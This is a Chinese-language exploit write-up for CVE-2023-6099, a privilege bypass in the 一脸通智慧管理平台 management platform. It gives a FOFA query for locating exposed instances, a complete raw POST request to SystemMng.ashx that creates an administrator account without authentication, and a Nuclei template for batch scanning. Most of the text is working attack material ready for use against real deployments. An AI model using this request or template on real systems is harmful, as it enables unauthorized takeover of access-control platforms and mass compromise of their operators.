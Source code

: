 ### 漏洞介绍

 一脸通智慧管理平台1.0.55.0.0.1及其以下版本SystemMng.ashx接口处存在权限绕过漏洞，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户。

### 漏洞复现

使用以下fofa语句进行资产收集，确认测试目标

```
title="欢迎使用脸爱云 一脸通智慧管理平台"
```

用burp抓包向网站发送如下数据包

```yaml
POST /SystemMng.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Length: 174

operatorName=test123456&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

3.响应200即成功创建账号为数据包内容

登陆后台可以看到自己创建的账号拥有管理员权限

## 批量检测

```yaml

id: CVE-2023-6099

info:
  name: 一脸通智慧管理平台权限绕过漏洞
  author: nihao
  severity: high
  description: '脸爱云一脸通智慧管理平台'
  tags: 2023
  metadata:
    max-request: 3
    fofa-query: title="欢迎使用脸爱云 一脸通智慧管理平台"
    verified: true

http:
  - method: POST
    path:
      - "{{BaseURL}}/SystemMng.ashx"
    headers:
      Accept-Encoding: gzip, deflate
      Accept-Language: en
    body: "operatorName=test123456&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators"
    matchers:
      - type: dsl
        dsl:
          - "status_code == 200"
```

